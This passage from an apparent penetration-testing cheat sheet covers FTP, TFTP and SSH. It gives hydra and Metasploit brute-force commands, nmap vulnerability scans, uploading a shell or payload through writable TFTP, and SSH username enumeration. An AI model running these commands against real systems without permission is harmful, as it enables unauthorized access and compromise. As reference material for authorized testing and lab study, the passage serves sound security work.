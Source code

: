 
**Bruteforce**

```
hydra -l user -P /usr/share/john/password.lst ftp://$ip:21
```



**Bruteforce with metasploit**

```
msfconsole -q msf> search type:auxiliary login: msf> use auxiliary/scanner/ftp/ftp_login
```



**Vuln scan**

```
nmap --script=ftp-* -p 21 $ip
```

#### &#x20;<a href="#tftp" id="tftp"></a>

#### TFTP <a href="#tftp" id="tftp"></a>

If unauthenticated access is allowed with write permissions you can upload a shell:

```
tftp $ip
tftp> ls
?Invalid command
tftp> verbose
Verbose mode on.
tftp> put shell.php
Sent 3605 bytes in 0.0 seconds [inf bits/sec]
```

```
nmap -sU -p 69 --script tftp-enum.nse $ip 
```

or

```
use auxiliary/scanner/tftp/tftpbrute
```

`connecting/interacting: tftp $ip tftp> put payload.exe tftp> get file.txt`

### &#x20;<a href="#ssh" id="ssh"></a>

### SSH <a href="#ssh" id="ssh"></a>



**User enumeration**

```
use auxiliary/scanner/ssh/ssh_enumusers
set user_file /usr/share/wordlists/metasploit/unix_users.txt
or
set user_file /usr/share/seclists/Usernames/Names/names.txt
run
```

